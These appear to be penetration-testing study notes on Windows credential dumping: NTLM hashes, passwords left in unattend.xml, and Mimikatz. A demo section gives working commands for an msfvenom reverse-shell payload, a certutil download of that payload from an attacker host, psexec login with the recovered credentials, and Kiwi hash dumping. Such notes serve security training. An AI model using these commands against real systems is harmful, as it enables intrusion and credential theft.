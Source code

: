 
## Windows Credential Dumping

### Windows password Hashes

* Windows stores user account password in SAM (Security Accounts Manager) database
* Windows has two different types of hashes
    * LM (This is legacy, only used by windows vista and older)
    * NTLM 
* SAM database cannot be copied while OS is running
* Hash dumping involves manipulate in memory SAM database file by interacting LSASS process
* NTLM Hash uses md4 algo for hashing and don’t have salt for randomization …WOW

### Searching for passwords in windows configuration files

* Configuration files are used for unattended windows setup (userdata)
    * Credentials might be present in these configuration files, provided the Administrator has not deleted this file after setup
    * Config files can be typically found in:
        * C:\Windows\Panther\Unattend.xml
        * C:\Windows\Panther\Autounattend.xml
    * Passwords stored in these file might be base64 encoded
* Demo
    * Kali Host:
        * Generate payload using msfvenom
            * msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.3 LPORT=1234 -f exe > payload.exe
        * Host a Simple Callback server
            * Python -m SimpleHTTPServer 80
                * Should be in the same folder as the payload.exe
        * Start listening on msfconsole
            * Use multi/handler; set payload; set lhost; set lport
        * Look for the configuration files
            * Option 1: search -f unattend.xml
            * Option 2: manually browse the C:\Windows\Panther\ and look for unattend.xml or autounattend.xml
        * Download the unattend.xml, look for password in the file
        * Base64 -d password.txt
        * Test the credentials using psexec.py
            * psexec.py Administrator@target_ip
                * Enter password
    * Victim Host
        * Download the payload
            * Certutil -urlcache -f http://attacker_ip/payload.exe payload.exe
        * Execute the payload.exe by double clicking
        * This should start a meterpreter session on Attacker Host

### Dumping hashes with Mimikatz

Mimikatz is the a very powerful post exploitation tool used for windows

* Option 1: load mimikatz binary to windows and interact with it
    * From meterpreter —> upload /usr/share/windows-resources/x64/mimikatz.exe (verify path)
    * Run the mimikats binary from cmd shell
* Option 2: use Kiwi module in meterpreter, this loads mimikatz in msfconsole, this doesn’t require loading a binary on to victim machine
    * Load kiwi from meterpreter; use kiwi cmds; ex: lsa_dump_sam will dump all hashes
* Dumping hashes will require privileged access

